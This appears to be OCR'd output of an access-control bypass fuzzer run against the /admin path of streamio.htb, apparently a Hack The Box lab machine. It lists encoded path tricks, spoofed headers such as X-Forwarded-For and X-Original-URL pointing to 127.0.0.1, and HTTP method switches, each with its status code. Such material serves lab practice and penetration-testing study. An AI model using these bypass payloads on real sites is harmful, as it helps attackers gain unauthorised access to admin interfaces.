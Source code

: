 ```bash
https://streamio.htb///admin..%0d : 400
https://streamio.htb///admin..%5c : 404
https://streamio.htb///admin..%ff/ : 404
https://streamio.htb///admin%2e%2e%2f : 404
https://streamio.htb///admin.%2e/ : 404
https://streamio.htb///admin%3f : 400
https://streamio.htb///admin%26 : 400
https://streamio.htb///admin%23 : 404
https://streamio.htb///admin.json : 404
https://streamio.htb///admin : 301
https://streamio.htb//*/admin : 400
https://streamio.htb//%2f//admin : 301
https://streamio.htb//.//admin : 301
https://streamio.htb/././admin : 301
https://streamio.htb//*//admin : 400
https://streamio.htb/?/admin : 200
https://streamio.htb/??/admin : 200
https://streamio.htb/&/admin : 400
https://streamio.htb/#/admin : 200
https://streamio.htb/%/admin : 400
https://streamio.htb/%20/admin : 404
https://streamio.htb/%09/admin : 400
https://streamio.htb//..;//admin : 404
https://streamio.htb/..//admin : 301
https://streamio.htb/..%2f/admin : 403
https://streamio.htb/..;//admin : 404
https://streamio.htb/.././/admin : 301
https://streamio.htb/..%00//admin : 400
https://streamio.htb/..%0d/admin : 400
https://streamio.htb/..%5c/admin : 403
https://streamio.htb/..%ff//admin : 404
https://streamio.htb/%2e%2e%2f/admin : 403
https://streamio.htb/.%2e//admin : 403
https://streamio.htb/%3f/admin : 400
https://streamio.htb/%26/admin : 400
https://streamio.htb/%23/admin : 404
https://streamio.htb/.json/admin : 404
https://streamio.htb///admin : (X-Original-URL: /admin) : 301
https://streamio.htb///admin : (X-Custom-IP-Authorization: 127.0.0.1) : 301
https://streamio.htb///admin : (X-Forwarded-For: http://127.0.0.1) : 301
https://streamio.htb///admin : (X-Forwarded-For: 127.0.0.1:80) : 301
https://streamio.htb///admin : (X-rewrite-url: //admin) : 200
https://streamio.htb///admin : X-Forwarded-Host:127.0.0.1) : 301
https://streamio.htb///admin : X-Host:127.0.0.1) : 301
https://streamio.htb///admin : X-Remote-IP:127.0.0.1) : 301
https://streamio.htb///admin : X-Originating-IP:127.0.0.1) : 301
https://streamio.htb///admin : Using GET: 301
https://streamio.htb///admin : Using POST: 405
https://streamio.htb///admin : Using HEAD: 301
https://streamio.htb///admin : Using PUT: 405
https://streamio.htb///admin : Using DELETE: 405
https://streamio.htb///admin : Using PATCH: 405
```
